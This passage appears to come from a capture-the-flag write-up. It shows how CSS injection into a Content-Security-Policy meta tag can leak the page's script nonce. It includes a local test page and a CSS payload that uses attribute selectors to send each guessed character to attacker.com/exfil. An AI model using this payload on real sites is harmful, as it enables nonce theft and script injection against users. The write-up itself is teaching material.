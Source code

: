 That's where we get a little stuck, but if we stare hard enough at `app/views/read_share.html`, we see another place in which the `nonce` is injected:

{% highlight html %}
<head>
  <meta charset="UTF-8">
  <meta http-equiv="Content-Security-Policy"
    content="script-src 'nonce-<%= nonce %>'; frame-src 'none'; object-src 'none'; base-uri 'self'; style-src 'unsafe-inline' https://unpkg.com">
  <title></title>
  ...
  <script nonce="<%= nonce %>" src="/static/js/share_read.js"></script>
</body>

</html>
{% endhighlight %}

If you missed it, the `nonce` attribute is not just injected in `script`, but also in the `meta` element dictating the Content-Security-Policy to be used on the page. This is somewhere that we may be able to CSS inject and exfiltrate data from!

Now we really want to try this out, so I wrote a shitty HTML page which simulates our injection on the page (this will form our little testing ground for the payload):

{% highlight html %}
<html>
<meta http-equiv="Content-Security-Policy"
content="script-src 'nonce-t23gmh5ac4o5vs4sdilfu1s1zs6eelud'; frame-src 'none'; object-src 'none'; base-uri 'self'; style-src 'unsafe-inline' https://unpkg.com">
<body>

</body>
<script nonce="t23gmh5ac4o5vs4sdilfu1s1zs6eelud" src="/static/js/read.js"></script>
</style>
</html>
{% endhighlight %}

Using the payload:

{% highlight html %}
<style>
* {display: block;}
meta[content^="a"]{
    background-image: url(https://attacker.com/exfil/a);
}
meta[content^="b"]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
meta[content^="9"]{
    background-image: url(https://attacker.com/exfil/9);   
}
</style>
{% endhighlight %}
